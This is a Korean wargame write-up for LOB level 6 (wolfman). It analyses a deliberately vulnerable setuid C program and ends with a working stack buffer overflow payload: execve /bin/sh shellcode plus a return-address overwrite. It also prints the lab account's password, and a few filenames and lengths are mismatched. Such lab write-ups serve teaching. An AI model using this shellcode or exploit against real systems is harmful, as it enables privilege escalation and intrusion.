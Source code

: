 ```yaml
---
title: BOF/ LOB-level6(wolfman)
tags: LOB
---
```


LOB란 The Lord of the BOF의 약자로 Buffer over-flow를 연습해 볼 수 있는 해킹문제이다.    
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### LOB Level 6(wolfman)
**ID : wolfman**  
**PASSWD : love eyuna**         

```bash
$ bash2
```
풀이 시작 전에 bash2로 꼭 변경  
**bash는 \xff를 \x00(NULL)로 인식하여 제대로 문제를 풀 수 없다.**  

![그림1](/assets/LOB/level6/1.PNG)  
사용자 darkelf의 권한의 darkelf파일이 있음을 확인할 수 있다.  
**set-uid가 걸려있으므로 사용자 darkelf의 권한으로 파일을 실행할 수 있다.**  
**darkelf파일이 쉘을 실행시키도록 한다면 사용자 darkelf의 쉘을 획득할 수 있다.**  

<br />
{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
{% endhighlight %}  

**cobolt.c**

### 소스분석  
1. argc가 2보다 작다면 "ergv error"을 출력하고 프로그램을 종료한다.  
**argc란? - 파라미터의 개수를 의미한다. 즉 main에 최소 2개이상의 인자를 전달하여야 한다.**  
2. 환경변수를 memset으로 초기화  
**환경변수를 이용한 공격 불가**  
3. argv[1][47]의 값이 \xbf가 아닌경우 "stack is still your friend" 출력 후 프로그램 종료  
**RTL기법 사용 불가 What is RTL? - [LOB(level13)](https://limjunho.github.io/2020/03/14/LOB-level13(darkknight).html)**  
4. argv[1]의 길이가 48보다 큰 경우 "argument is too long!"을 출력 후 프로그램 종료  
**RET뒤에 NOP과 ShellCode를 삽입하는 공격 불가**  
5. main에 전달받은 인자 argv[1](argv[0]은 파일명)을 buffer에 복사하여 출력  
**strcpy함수는 복사할 데이터의 크기제한이 없기 때문에 argv[1]이 40Byte보다 크다면 buffer-overflow가 발생하는 취약점이 있다.**  
6. memset으로 buffer를 모두 0으로 초기화  

### Solution  
**[LOB(level4)](https://limjunho.github.io/2019/11/03/LOB-level4(goblin).html)와 같이 argv[2]를 이용하는 방법이 있다.**  
**이 포스팅에서는 buffer는 초기화하지만 argv는 초기화 하지 않는 취약점을 이용해 풀이**  

#### level4에서 사용한 쉘코드  
**\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**
이전에 사용하던 41Byte 쉘코드는 buffer의 크기가 작아 사용하기 어렵기 때문에 25Byte 쉘코드를 사용  

**buffer over-flow를 이용하기 위해서는 프로그램 Stack의 구조를 알아야 한다.**  

스택구조|
---|
buffer(40Byte)|
sfp(4Byte)|
ret(4Byte)| 

**SFP(Stack frame pointer) - 이전 함수의 EBP주소를 담고 있다.**  
(EBP - 스택의 가장 바닥을 가리키는 포인터)  
**RET(Return Address) - 함수가 종료시 return될 주소**  

#### 기존 darkelf.c를 복사하여 argv[1]의 주소를 출력하는 코드를 추가.   
**buffer에 삽입한 쉘코드는 초기화되지만 argv[1]에는 남아있기 때문에 이를 이용**   

{% highlight C linenos %}  
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
        printf("%p\n", argv[1]);

        // buffer hunter
        memset(buffer, 0, 40);
}
{% endhighlight %}  
**darkelf.c를 복사하여 소스 추가 -> printf("%p\n", argv[1]);**  


![그림2](/assets/LOB/level6/2.PNG)  
argv[1]의 주소 -> 0xbffffc3d

### Attack  

argv[1]의 주소와 스택의 구조를 파악하였으므로 공격을 시도할 수 있다.  
**./orc [ShellCode] + [dummy] + [argv(1)주소]**의 형태로 공격.  
**이 때 dummy값의 길이는 buffer의 길이 + sfp(4byte)만큼 즉 44Byte여야 한다.**
**또한 RET에 덮을 NOP의 주소는 리틀 엔디안 방식으로 기입한다.**  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면 echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6  
명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

![그림4](/assets/LOB/level6/3.PNG)  
공격 성공.   

**페이로드**  
```bash
$ ./darkelf `python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80' + 'A'*19 + '\x3d\xfc\xff\xbf'"`
```
